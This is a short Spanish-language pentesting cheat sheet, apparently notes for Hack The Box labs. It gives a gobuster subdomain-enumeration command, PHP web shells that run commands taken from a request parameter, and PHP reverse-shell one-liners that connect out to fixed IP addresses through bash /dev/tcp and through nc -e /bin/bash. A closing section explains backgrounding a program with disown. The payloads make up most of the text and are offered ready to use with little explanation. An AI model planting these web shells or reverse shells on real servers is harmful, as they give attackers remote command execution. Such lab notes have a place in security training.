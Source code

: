 
## GOBuster

Para enumerar subdominios

```
gobuster vhost -u http://cronos.htb/ -w /subdomains.txt -t 200
```


## PHP reverse shell 


```php
<?php

echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";

?>

```
Existen variantes...

```php

<?php system($_GET['cmd']); ?>

```

Una variacion de reverse shell

```
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.80/443 0>&1'"); ?>
```

Una con nc

```
<?php system("nc 10.90.60.80 4444 -e /bin/bash"); ?>
```

## disown

Para que se abra un programa como firefox y no dependa de esa consola se pueda cerrar y no se cierre la consola que puedas seguir trabajando.

```
progrmaa &> /dev/null & disown
 
```

firefox: Es el comando para ejecutar el navegador web Firefox.

&> /dev/null: Redirige tanto la salida estándar (stdout) como la salida de error estándar (stderr) del comando firefox al dispositivo especial /dev/null. /dev/null es un dispositivo especial en sistemas Unix y Linux que se utiliza para descartar datos. Por lo tanto, este comando asegura que cualquier salida generada por Firefox se descarte y no se muestre en la pantalla o en ningún archivo de registro.
